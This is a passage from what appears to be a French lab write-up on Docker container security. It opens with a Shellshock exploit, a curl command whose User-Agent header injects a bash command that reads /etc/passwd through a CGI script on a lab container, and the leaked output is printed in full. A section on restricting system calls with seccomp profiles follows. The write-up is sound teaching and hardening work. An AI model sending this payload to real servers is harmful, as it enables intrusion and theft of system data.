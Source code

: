         ```bash
        curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://172.17.0.2/cgi-bin/simple-cgi-bin.sh

        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/bin/sh
        bin:x:2:2:bin:/bin:/bin/sh
        sys:x:3:3:sys:/dev:/bin/sh
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/bin/sh
        man:x:6:12:man:/var/cache/man:/bin/sh
        lp:x:7:7:lp:/var/spool/lpd:/bin/sh
        mail:x:8:8:mail:/var/mail:/bin/sh
        news:x:9:9:news:/var/spool/news:/bin/sh
        uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
        proxy:x:13:13:proxy:/bin:/bin/sh
        www-data:x:33:33:www-data:/var/www:/bin/sh
        backup:x:34:34:backup:/var/backups:/bin/sh
        list:x:38:38:Mailing List Manager:/var/list:/bin/sh
        irc:x:39:39:ircd:/var/run/ircd:/bin/sh
        gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
        nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
        libuuid:x:100:101::/var/lib/libuuid:/bin/sh
        ```

1. ## 7 - Utilisation de SecComp pour limiter l’utilisation de certains appels systèmes

    Seccomp permet de filtrer des appels systèmes en KernelLand. Vous devez vérifier que votre kernel supporte cette fonctionnalité:

    ```bash
    cat /boot/config-6.1.0-13-amd64 | grep CONFIG_SECCOMP
      CONFIG_SECCOMP=y
      CONFIG_SECCOMP_FILTER=y
    ```

    et que votre version de SecComp est supérieure à >= 2.2.1. La fonctionnalité a uniquement été testée avec succès sur Ubuntu 16.

    1. Téléchargez le fichier default-no-chmod.json qui va interdire le lancement de la commande chmod dans le container.

        [https://nextcloud.iutbeziers.fr/s/F9RkFKGZMas9fnc](https://nextcloud.iutbeziers.fr/s/F9RkFKGZMas9fnc)

    2. Utilisez ce fichier pour limiter les appels systèmes du container lors du “docker run“.

        ```bash
        docker run --rm -it --security-opt seccomp=default-no-chmod.json  ubuntu bash
        ```

    3. Expliquez en le fonctionnement.

        Seccomp est une fonctionnalité du noyau Linux qui permet de filtrer les appels système effectués par un processus. Dans le contexte de Docker, vous pouvez utiliser Seccomp pour limiter les appels système qu'un conteneur est autorisé à effectuer
